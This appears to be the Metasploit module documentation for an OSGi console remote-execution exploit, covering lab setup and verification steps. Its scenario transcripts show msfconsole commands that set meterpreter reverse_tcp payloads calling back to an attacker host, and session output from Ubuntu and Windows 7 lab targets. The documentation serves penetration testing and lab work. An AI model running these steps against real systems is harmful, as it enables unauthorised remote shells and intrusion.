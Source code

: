 ## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
`mkdir testenv && cd testenv`
2. Download the setup script
`wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh`
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
`./setup.sh`
5. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
6. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinox SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
```
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
```
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
```
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
```
11. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
12. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/osgi_console_exec`
  4. Do: `set RHOST 127.0.0.1`
  5. Do: `set RPORT 5555` or `set RPORT 2019`
  6. Do: `check`. The target should appear vulnerable.
  6. Do: `set payload` with the payload of your choosing.
  5. Do: `run`
  5. You should get a shell.

## Options

### TIME_WAIT - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

```
msf > use exploit/multi/misc/osgi_console_exec
msf exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

```

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

```
msf > use exploit/multi/misc/osgi_console_exec
msf exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
